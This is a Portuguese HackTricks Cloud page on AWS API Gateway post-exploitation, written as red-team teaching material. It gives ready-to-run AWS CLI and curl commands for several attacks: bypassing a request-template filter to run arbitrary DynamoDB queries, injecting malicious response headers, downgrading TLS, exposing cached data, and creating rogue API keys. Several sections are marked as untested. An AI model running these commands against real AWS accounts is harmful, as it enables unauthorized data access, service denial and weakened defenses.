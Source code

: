 # AWS - API Gateway Pós Exploração

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Treinamento AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Treinamento GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## API Gateway

Para mais informações, confira:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Acessar APIs não expostas

Você pode criar um endpoint em [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) com o serviço `com.amazonaws.us-east-1.execute-api`, expor o endpoint em uma rede onde você tenha acesso (potencialmente via uma máquina EC2) e atribuir um grupo de segurança permitindo todas as conexões.\
Então, a partir da máquina EC2, você poderá acessar o endpoint e, portanto, chamar a API do gateway que não estava exposta anteriormente.

### Bypass Request body passthrough

Esta técnica foi encontrada em [**este writeup de CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Como indicado na [**documentação da AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) na seção `PassthroughBehavior`, por padrão, o valor **`WHEN_NO_MATCH`**, ao verificar o cabeçalho **Content-Type** da solicitação, passará a solicitação para o back end sem transformação.

Portanto, no CTF, o API Gateway tinha um template de integração que estava **impedindo que a flag fosse exfiltrada** em uma resposta quando uma solicitação era enviada com `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

No entanto, enviar uma solicitação com **`Content-type: text/json`** impediria esse filtro.

Finalmente, como o API Gateway estava permitindo apenas `Get` e `Options`, era possível enviar uma consulta arbitrária do dynamoDB sem nenhum limite, enviando uma solicitação POST com a consulta no corpo e usando o cabeçalho `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Planos de Uso DoS

Na seção **Enumeração**, você pode ver como **obter o plano de uso** das chaves. Se você tiver a chave e ela estiver **limitada** a X usos **por mês**, você poderia **apenas usá-la e causar um DoS**.

A **API Key** só precisa ser **incluída** dentro de um **cabeçalho HTTP** chamado **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:UpdateGatewayResponse` e `apigateway:CreateDeployment` pode **modificar uma Resposta de Gateway existente para incluir cabeçalhos personalizados ou modelos de resposta que vazam informações sensíveis ou executem scripts maliciosos**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Vazamento de informações sensíveis, execução de scripts maliciosos ou acesso não autorizado a recursos da API.

{% hint style="info" %}
Necessita de teste
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:UpdateStage` e `apigateway:CreateDeployment` pode **modificar um estágio existente do API Gateway para redirecionar o tráfego para um estágio diferente ou alterar as configurações de cache para obter acesso não autorizado a dados em cache**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Acesso não autorizado a dados em cache, interrompendo ou interceptando o tráfego da API.

{% hint style="info" %}
Necessita de teste
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:PutMethodResponse` e `apigateway:CreateDeployment` pode **modificar a resposta do método de um método REST API existente do API Gateway para incluir cabeçalhos personalizados ou modelos de resposta que vazam informações sensíveis ou executam scripts maliciosos**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Vazamento de informações sensíveis, execução de scripts maliciosos ou acesso não autorizado a recursos da API.

{% hint style="info" %}
Necessita de teste
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:UpdateRestApi` e `apigateway:CreateDeployment` pode **modificar as configurações da API Gateway REST API para desativar o registro ou alterar a versão mínima do TLS, potencialmente enfraquecendo a segurança da API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Enfraquecendo a segurança da API, permitindo potencialmente acesso não autorizado ou expondo informações sensíveis.

{% hint style="info" %}
Necessita de teste
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Um atacante com permissões `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` e `apigateway:CreateUsagePlanKey` pode **criar novas chaves de API, associá-las a planos de uso e, em seguida, usar essas chaves para acesso não autorizado às APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impacto Potencial**: Acesso não autorizado a recursos da API, contornando controles de segurança.

{% hint style="info" %}
Necessita de teste
{% endhint %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
